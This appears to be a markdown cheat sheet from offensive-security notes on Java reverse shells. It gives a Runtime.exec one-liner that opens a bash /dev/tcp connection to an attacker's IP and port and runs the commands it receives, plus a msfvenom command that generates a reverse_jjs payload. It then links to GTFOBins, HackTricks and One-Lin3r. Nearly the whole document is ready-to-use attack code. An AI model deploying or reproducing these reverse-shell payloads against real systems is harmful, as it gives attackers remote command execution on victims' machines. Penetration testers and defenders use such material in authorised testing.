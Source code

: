 # Java

## 01 - One-liners

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_jjs lhost=<IP> lport=<PORT>
```

---
## References

- [GTFOBins: jjs](https://gtfobins.github.io/gtfobins/jjs/)

- [Hacktricks: Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)